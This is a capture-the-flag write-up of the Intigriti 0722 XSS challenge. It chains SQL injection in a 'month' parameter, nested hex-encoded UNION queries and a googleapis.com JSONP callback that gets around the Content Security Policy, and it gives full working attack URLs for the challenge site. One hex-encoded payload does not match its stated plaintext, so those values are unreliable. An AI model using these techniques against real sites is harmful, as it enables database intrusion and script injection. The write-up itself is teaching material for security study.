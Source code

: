 ```yaml
---
layout: post
title: Intigriti XSS Challenge 0722 Writeup
date: 2022-08-21
categories: [CTF, writeup]
tags: [ctf.xss] 
---
```



### Introduction:
The Intigriti 0722 XSS Challenge involves exploiting an SQL injection vulnerability to execute an XSS payload while bypassing Content Security Policy (CSP) restrictions.


**Challenge URL:** [https://challenge-0722.intigriti.io/](https://challenge-0722.intigriti.io/)

**Objective:** Trigger an alert box within the domain.


&nbsp;

### Initial Discovery
The application is a basic single-page blog with less functionality. The site mainly consists of static blog entries, with most links inactive except for the "Archives" links that filter posts by month.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image.png)

`?month` is the parameter used by the archives links and inserting a single quote (`'`) into this parameter caused an application error

Inserting the SQL injection payload `0 or 1=1` into the URL caused the posts to reappear:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=0 or 1=1`

Changing the payload to `0 or 1=2` caused the posts to disappear. This indicates that the month parameter is vulnerable to SQL injection.

&nbsp;

### SQL Injection

To identify the number of columns in the table, I used a UNION-based payload and incremented the number of fields until an error appeared on the page:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,4,5--`

The site did not produce an error with up to 5 fields, but adding a sixth field resulted in an error, indicating that there are 5 columns in the table.

When I inserted anything other than numbers, the site returned an error. This indicates that the 5 columns only accept numeric values, so we need to hex encode our payload for each column.

I encoded the XSS payload `<script>alert(1)</script>` into its hexadecimal representation: `0x3c7363726970743e616c6572742831293c2f7363726970743e`. I then inserted this encoded payload into each column to test if it would trigger an XSS attack. To differentiate the columns, I included distinct numbers inside each `alert()`.

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 0x3c7363726970743e616c6572742831293c2f7363726970743e,0x3c7363726970743e616c6572742832293c2f7363726970743e,0x3c7363726970743e616c6572742833293c2f7363726970743e,0x3c7363726970743e616c6572742834293c2f7363726970743e,0x3c7363726970743e616c6572742835293c2f7363726970743e--` 

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%201.png)

The payloads are being reflected, but they are HTML encoded. Additionally, the author name field appears empty.

```html
	  <article class="blog-post">
		<h2 class="blog-post-title">&lt;script&gt;alert(2)&lt;/script&gt;</h2>
		<p class="blog-post-meta">&lt;script&gt;alert(5)&lt;/script&gt; by <a href="#"></a></p>

		<p>&lt;script&gt;alert(3)&lt;/script&gt;</p>
	  </article>
```

 Injecting values `1` or `2` into the fourth field of our UNION SELECT query displays the author names "Anton" and "Jake," respectively. Any other numeric values result in an empty author name field.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%202.png)

There might be a chance that the value from the fourth field is used in another SQL query and could be vulnerable to SQL injection. By injecting the hex-encoded payload `0x30206f7220313d30` (representing `0 or 1=0`) into the fourth field, the author name field returns empty. Conversely, injecting `0x30206f7220313d31` (representing `0 or 1=1`) displays the author name, confirming that it is vulnerable to SQL injection.

To identify the number of columns in the table, I used a UNION-based payload and incremented the number of fields until post’s author name is returned in the site.

Since only numerical values were accepted, I hex-encoded the payload `0 UNION SELECT 1,2,3` to `0x3020554e494f4e2053454c45435420312c322c33`

Inserting this hex-encoded payload into the fourth field of the initial SQLi UNION query:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c322c33,5--`

showed the author’s name. Adding an additional field to the second payload removed the author field, confirming that there are three columns in the second table. The value `2` is also reflected in the author name, coming from the second field of the Second SQLi payload

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%203.png)

I encoded the XSS payload `<script>alert(1)</script>` to hex format as `0x3c7363726970743e616c6572742831293c2f7363726970743e` and inserted it into the second field of the SQLi payload:

`0 UNION SELECT 1,0x3c7363726970743e616c6572742831293c2f7363726970743e,3`

Next, I hex-encoded the entire payload to `0x3020554e494f4e2053454c45435420312c307833633733363337323639373037343365363136633635373237343238333132393363326637333633373236393730373433652c33`, which was then placed into the fourth field of the initial SQLi payload:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c307833633733363337323639373037343365363136633635373237343238333132393363326637333633373236393730373433652c33,5--`

The result of this payload:

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%204.png)

Although the payload renders without any encoding, it is not being triggered. Checking the console confirms that the payload is being blocked by the Content Security Policy.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%205.png)

&nbsp;

### Bypassing CSP

Checking the HTTP response header reveals the site's Content Security Policy (CSP):

`Content-Security-Policy: default-src 'self' *.googleapis.com *.gstatic.com *.cloudflare.com`

This configuration restricts script execution to the origin or the three specified domains. 

To evaluate whether the CSP is correctly implemented, I used [Google's CSP Evaluator](https://csp-evaluator.withgoogle.com/). 

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%206.png)

The results indicated that the provided allowlists can be bypassed.

I then applied a CSP bypass method from [Brutelogic's CSP Bypass Guidelines](https://brutelogic.com.br/blog/csp-bypass-guidelines/), which utilizes the googleapis.com API.

I encoded the XSS payload

**`<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)"></script>`**

to its hex representation: `0x3c736372697074207365723d68747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c6572742831293e3c2f7363726970743e`.

I then inserted this into the second field of the second SQLi payload:

`0 UNION SELECT 1,0x3c736372697074207365723d68747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c6572742831293e3c2f7363726970743e,3`

Next, I hex-encoded the entire payload:

`0x3020554e494f4e2053454c45435420312c30783363353336333732363937303734323035333732363333643638373437343730373333613266326637373737373732653637366636663637366336353631373036393733326536333666366432663633373537333734366636643733363536313732363336383266373633313366363336313663366336323631363336623364363136633635373237343238363436663633373536643635366537343265363436663664363136393665323933653363326635333633373236393730373433652c33`.

This was placed in the fourth field of the initial SQLi payload, resulting in the final payload that triggers the alert:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c30783363353336333732363937303734323035333732363333643638373437343730373333613266326637373737373732653637366636663637366336353631373036393733326536333666366432663633373537333734366636643733363536313732363336383266373633313366363336313663366336323631363336623364363136633635373237343238363436663633373536643635366537343265363436663664363136393665323933653363326635333633373236393730373433652c33,5--`

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%207.png)
